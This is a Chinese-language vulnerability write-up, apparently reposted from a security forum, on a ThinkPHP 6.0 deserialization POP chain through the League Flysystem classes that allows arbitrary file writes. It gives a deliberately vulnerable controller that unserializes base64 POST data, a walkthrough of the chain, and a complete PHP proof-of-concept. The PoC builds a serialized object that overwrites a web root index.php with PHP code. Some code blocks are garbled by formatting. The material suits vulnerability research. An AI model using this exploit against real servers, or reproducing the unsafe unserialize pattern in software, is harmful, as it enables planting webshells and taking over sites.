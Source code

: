# Thinkphp 6.0 任意文件写入pop链

> 原文：[https://www.zhihuifly.com/t/topic/3173](https://www.zhihuifly.com/t/topic/3173)

# Thinkphp 6.0 任意文件写入pop链

## 一、漏洞简介

需要知晓绝对路径

## 二、漏洞影响

Thinkphp 6.0

## 三、复现过程

### 环境搭建

ThinkPHP6.0.2

PHP7.2

```
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController

```
public function test(){
    echo base64_decode($_POST['payload']);
    $payload = unserialize(base64_decode($_POST['payload']));
} 
``` `}` 
```

### 漏洞分析

POP链：

```
League\Flysystem\Cached\Storage\AbstractCache --> destruct()
League\Flysystem\Cached\Storage\Adapter --> save()
League\Flysystem\Adapter\Local --> write()
vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php 
```

![image](img/a7857f16bdb35b974425b4189728e78d.png)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![image](img/2f7b35acc875f9b281ac040cdec4cec3.png)

$contents决定文件写入内容，显然可向$this->complete或$this->expire写入具体内容即可

![image](img/42fae2a54885f5acb8c04efcf189d754.png)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![image](img/d034c5997d690f596aa28aaed93e591f.png)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![image](img/ed083267ed0aef949f9f2ccdd4a1d1ce.png)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

```
<?php
namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
	protected $autosave = true;
	protected $cache = [];
	protected $complete = [];
	function __construct(){
		$this->autosave = false;
		$this->cache = ['test'];
		$this->complete = ["axin"=>"<?php phpinfo();?>"];
	}
}

class Adapter extends AbstractCache{

protected $adapter;

protected $file;

protected $expire = null;

```
function __construct(){
	parent::__construct();
	$this-&gt;adapter = new Local();
	$this-&gt;file = "var/www/html/index.php";
    #$this-&gt;file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
	$this-&gt;expire = 123;
} 
```

}

namespace League\Flysystem\Adapter;

abstract class AbstractAdapter{

protected $pathPrefix;

function __construct(){

$this->pathPrefix = “/”;

#$this->pathPrefix = “D”;  #windows下目录

}

}

class Local extends AbstractAdapter{ `}

use League\Flysystem\Cached\Storage\Adapter;

echo base64_encode(serialize(new Adapter()));` 
```

![image](img/f39f8a08d42bb6db348eda281091281b.png)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![image](img/9db8520ab2063900e0eb1ba5cf89a1db.png)

文件成功写入：

![image](img/2c772bddc271398993f6ad9096f735bf.png)

## 参考链接

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/

> https://www.anquanke.com/post/id/194269